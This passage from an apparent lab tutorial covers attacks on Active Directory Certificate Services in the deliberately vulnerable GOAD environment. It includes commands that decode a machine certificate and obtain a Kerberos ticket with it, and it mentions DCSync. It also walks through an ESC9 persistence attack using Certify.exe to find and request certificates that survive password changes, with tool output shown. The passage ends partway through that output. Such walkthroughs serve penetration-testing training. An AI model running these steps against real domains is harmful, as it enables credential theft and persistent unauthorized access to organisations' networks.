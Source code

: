 Let's convert and use the certificate:

```bash
# Convert base64 certificate for use
cat /tmp/MEEREEN$cert.b64 | base64 -d > meereen.pfx

# Ask for a TGT with the machine certificate
gettgtpkinit.py essos.local/meereen$ -pfx-file meereen.pfx meereen.ccache

Impacket v0.11.0 - Copyright 2023 Fortra

[*] Using TGT from cache file meereen.ccache
[*] Requesting TGT for meereen$@essos.local using Kerberos PKINIT
[+] TGT request successful!
[*] Saved TGT to meereen.ccache

# Use machine certificate for further attacks or DCSync
```

## ESC9: No Security Extension

ESC9 is pure gold for persistence. It exploits certificate templates that don't require the szOID_NTDS_CA_SECURITY_EXT security extension in issued certificates. This means your certificates keep working even when passwords change.

### Vulnerability Details

When certificates lack the security extension, they provide persistent authentication that survives password changes. This is what makes them perfect for maintaining long-term access.

### Key Point

A certificate issued from a `NO_SECURITY_EXTENSION` template will still map even after the user changes their password, making it perfect for persistence.

### Exploitation Process

Let's test this in our GOAD environment:

```bash
# Find templates without security extension requirement
Certify.exe find /vulnerable

[!] Vulnerable Certificates Templates :

    CA Name                       : braavos.essos.local\ESSOS-CA
    Template Name                 : ESC9
    Schema Version                : 2
    Validity Period               : 1 year
    Renewal Period                : 6 weeks
    msPKI-Certificate-Name-Flag   : 0x0
    mspki-enrollment-flag         : NO_SECURITY_EXTENSION, INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
    Authorized Signatures Required: 0
    pkiextendedkeyusage           : Client Authentication
    Permissions
      Enrollment Permissions
        Enrollment Rights           : ESSOS\Domain Users                    Access: Allow

# Request certificate for current user (missandei)
Certify.exe request /ca:braavos.essos.local\ESSOS-CA /template:ESC9

[*] Action: Request a Certificates
[*] Current user context    : ESSOS\missandei
[*] Template                : ESC9
```